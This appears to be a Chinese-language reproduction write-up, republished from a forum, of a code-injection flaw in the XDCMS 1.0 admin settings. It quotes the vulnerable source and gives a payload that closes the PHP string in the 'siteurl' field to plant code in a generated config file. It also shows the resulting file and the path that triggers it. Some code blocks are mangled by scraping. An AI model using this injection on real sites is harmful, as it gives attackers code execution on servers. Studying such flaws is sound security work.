


# XDCMS 1.0 后台配置文件getshell

> 原文：[https://www.zhihuifly.com/t/topic/3279](https://www.zhihuifly.com/t/topic/3279)

# XDCMS 1.0 后台配置文件getshell

## 一、漏洞简介

## 二、漏洞影响

XDCMS 1.0

## 三、复现过程



刚看到这里的时候，这里的网站地址:`http://127.0.0.5`我很好奇是干嘛的，因为它现在写的是127.0.0.5而网站的ip与这个无关，去翻翻源码看看这玩意是干嘛的

```
if($tag=='config'){
    //判断url是否以/结尾
    $urlnum=strlen($info['siteurl'])-1;
    if(substr($info['siteurl'],$urlnum,1)!="/"){
        showmsg(C("update_url_error"),"-1");
    }//end

```
$cms=SYS_PATH.'xdcms.inc.php';   //生成xdcms配置文件
$cmsurl="&lt;?phpn define('CMS_URL','".$info['siteurl']."');n define('TP_FOLDER','".$info['template']."');n define('TP_CACHE',".$info['caching'].");n?&gt;";
creat_inc($cms,$cmsurl); 
``` 
```

点击保存后，网站获取siteurl没有经过过滤，就拼接到cmsurl字符串变量里去了，然后根据这个cmsurl生成配置文件

配置文件：

```
<?php
 define('CMS_URL','http://127.0.0.5/');
 define('TP_FOLDER','dccms');
 define('TP_CACHE',false);
?> 
```

这里我们可以构造siteurl：

```
hello');?><?php phpinfo();?> 
```

点击保存后，我们去查看一下该配置文件：

```
<?php
 define('CMS_URL','hello');?><?php phpinfo();?>';
 define('TP_FOLDER','dccms');
 define('TP_CACHE',false);
?> 
```

这里的配置文件内容生成外部参数可控，导致了可直接getshell

访问该配置文件页面：`http://www.0-sec.org/system/xdcms.inc.php`

